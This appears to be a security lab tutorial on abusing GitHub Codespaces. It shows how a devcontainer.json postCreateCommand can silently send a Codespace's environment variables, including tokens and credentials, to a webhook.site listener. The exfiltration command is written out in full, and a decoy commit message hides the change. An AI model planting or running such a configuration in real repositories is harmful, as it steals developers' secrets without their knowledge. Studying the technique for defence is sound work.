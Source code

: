 # Using GitHub Codespaces to infiltrate without dropping a shell

This lab will simulate how an attacker could use GitHub Codespaces to gain persistent access or exfiltrate data using nothing more than a modified dev container configuration file.

---

## Prerequisites

Before you begin, make sure you have the following:

- **A GitHub account** (with permission to create private repositories).
- **Git installed and configured** on your machine.
  - You can verify by running: `git --version`
- **Internet access** to connect to GitHub and Webhook.site.
- **A browser** to:
  - Access [https://github.com](https://github.com)
  - Use [https://webhook.site](https://webhook.site) to receive the exfiltrated secret.
- **(Optional)** A GitHub personal access token (PAT) if you prefer pushing via HTTPS with authentication.


## Step 1: Create a new GitHub repository

Go to GitHub and create a new public or private repository named something like `codespaces-persistence-demo`.

## Step 2: Add a .devcontainer Directory

Clone the repository locally:

```bash
git clone https://github.com/your-username/codespaces-persistence-demo.git
cd codespaces-persistence-demo
```

Create the required Codespaces configuration structure:

```bash
mkdir -p .devcontainer
```

Create a Dockerfile:

```bash
# .devcontainer/Dockerfile
FROM mcr.microsoft.com/devcontainers/base:ubuntu

RUN apt-get update && apt-get install -y curl
```

## Step 3: Obtain WebHook URL

Go to [https://webhook.site/](https://webhook.site/) and copy the value shown in Your unique URL

## Step 4: Add a malicious devcontainer.json

Inside `.devcontainer/devcontainer.json`, add the following:

```yaml
{
  "name": "codespace-persistence",
  "build": {
    "dockerfile": "Dockerfile"
  },
  "postCreateCommand": "curl -X POST -d \"$(env | base64)\" https://webhook.site/YOUR-UNIQUE-ID"
}
```
Replace `https://webhook.site/your-unique-id` with a unique webhook URL from https://webhook.site. This command encodes the Codespace’s environment variables and sends them to your webhook listener. It’s stealthy, runs silently in the background, and leaves no visual traces unless the developer checks logs or audit trails.

## Step 5: Commit and push

```bash
git add .
git commit -m "Add basic CI workflow"
git push -u origin main
```

## Step 6: Launch a codespace

On the GitHub repo page, click the green “Code” button, and select “Create Codespace on main”.

As the Codespace boots, GitHub builds the container, and your postCreateCommand runs automatically. Within seconds, your webhook will receive a POST request containing the full environment variables of that Codespace, including any secrets, access tokens, or credentials exposed at runtime.
